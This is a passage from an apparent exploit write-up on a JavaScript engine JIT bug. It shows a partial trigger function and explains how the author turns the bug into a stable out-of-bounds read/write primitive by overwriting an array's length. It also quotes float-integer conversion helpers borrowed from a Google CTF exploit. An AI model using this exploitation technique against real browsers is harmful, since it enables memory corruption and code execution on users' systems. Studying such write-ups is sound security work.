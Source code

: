 ```js
	let arr = [1.1, 1.2, 1.3, 1.4, 1.5, 1.6];
	return arr[i];
}

console.log(trigger(false, false));
	%OptimizeFunctionOnNextCall(trigger);
console.log(trigger(false, true));
	%OptimizeFunctionOnNextCall(trigger);
console.log(trigger(true));
```

I don't think I have ever been this happy to see a number as large as
`-1.1885946300594787e+148` in my life :D

Unfortunately, triggering this bug had been extremely difficult, and
it was fragile, so I decided to spend some time working on stabilizing
this, and making it easier to do OOB RWs.

## Stabilized OOB RW

The initial idea for this is to take a "short" array, use the bug to
overwrite its length, and then provide this new array to the "outside
world". This way, later stages of the exploit can easily perform
out-of-bounds accesses without needing to trigger the original finicky
bug again.

In order to perform this stabilization, we need to introduce 2 arrays,
use the first to overwrite the length of the second. In particular, we
will set the length of the second array to `1024 * 1024` so that we
_definitely_ have enough to overwrite whatever we want.

Since we need to work with conversions between floats and integers, I
copied the following code from Google CTF 2018's ["Just In
Time"](https://github.com/google/google-ctf/blob/master/2018/finals/pwn-just-in-time/exploit/index.html)
challenge:

```js
let conversion_buffer = new ArrayBuffer(8);
let float_view = new Float64Array(conversion_buffer);
let int_view = new BigUint64Array(conversion_buffer);
BigInt.prototype.hex = function() {
  return '0x' + this.toString(16);
};
BigInt.prototype.i2f = function() {
  int_view[0] = this;
  return float_view[0];
}
BigInt.prototype.smi2f = function() {
  int_view[0] = this << 32n;
  return float_view[0];
}
Number.prototype.f2i = function() {
  float_view[0] = this;
  return int_view[0];
}
Number.prototype.f2smi = function() {
  float_view[0] = this;
  return int_view[0] >> 32n;
}
Number.prototype.i2f = function() {
  return BigInt(this).i2f();
}
Number.prototype.smi2f = function() {
  return BigInt(this).smi2f();
```